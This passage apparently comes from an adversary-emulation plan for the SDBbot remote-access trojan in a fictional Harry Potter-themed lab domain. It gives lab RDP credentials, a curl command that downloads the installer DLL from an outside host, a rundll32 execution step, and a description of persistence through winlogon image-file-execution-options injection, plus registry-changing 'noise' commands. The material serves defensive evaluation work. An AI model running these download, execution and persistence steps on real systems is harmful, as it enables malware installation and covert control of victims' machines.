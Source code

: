 * :arrow_right: From the Windows jumpbox `spitfire (223.246.0.90)`, initiate an RDP
session to the Windows victim workstation `diagonalley (10.55.4.21)` as
`encryptpotter.net\griphook`:

    | Hostname | Username | Password |
    | -------- | -------- | -------- |
    | diagonalley.encryptpotter.net | encryptpotter.net\griphook | Feral-Studs |

* Search for Command Prompt and execute the following command.

```cmd
curl -o C:\Users\griphook\AppData\Roaming\IFInstaller.dll  http://curse-breaker.org/files/installer.dll
```

* Close the command prompt window.

## Step 1 - Persistence (Evaluation Step 5)

### :microphone: Voice Track

> [!Note]
> This plan starts after initial compromise, where a victim has already
downloaded the payload.

The victim executes the downloaded SDBbot Installer
(`C:\Users\griphook\AppData\Roaming\IFInstaller.dll`) using `rundll32.exe`.

The SDBbot Installer contains an embedded RAT payload and, on execution, writes
shellcode and the embedded payload as a binary blob to the registry at
`HKLM\SOFTWARE\Microsoft\skw`. Then, the installer establishes persistence
using image file execution options injection:

* The SDBbot Installer saves the SDBbot Loader DLL to `C:\Windows\temp\tmp8AB2.tmp`
and creates a symbolic link `C:\Windows\System32\msverload.dll` linking to the
Loader DLL
* The SDBbot Installer adds `msverload.dll` to the VerifierDlls value for
`winlogon.exe`

### :biohazard: Procedures

* In the RDP session to the Windows victim workstation `diagonalley (10.55.4.21)`
as `encryptpotter.net\griphook`, search for Command Prompt and right-click to
Run as Administrator.

* In the Admin Command Prompt, execute the SDBbot Installer using `rundll32`:

    ```bat
    rundll32.exe C:\Users\griphook\AppData\Roaming\IFInstaller.dll,install
    ```

* :camera: Confirm and screenshot that the payload was executed in Command Prompt.

### :loud_sound: Noise
The following noise activity is executed:
* User will execute rundll32.exe to load scripts with msedge
  * cmd.exe executed `rundll32  url.dll,FileProtocolHandler https://www.google.com & taskkill /F /IM \"msedge.exe\" /T`
* User will create text files using Notepad
  * notepad.exe creates C:\\Users\\Public\\hidden.txt" & "C:\\Users\\Public\\original.txt
* User will embed a text file within another text file
  * cmd.exe executed `copy /b C:\\Users\\Public\\hidden.txt C:\\Users\\Public\\original.txt`
* User will modify the IFEO registry for msedge
  * `reg add \HKLM\\SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image File Execution Options\\msedge.exe\" /v Debugger /t REG_SZ /d \"C:\\ Program Files\\Mozilla Firefox\\firefox.exe\""`
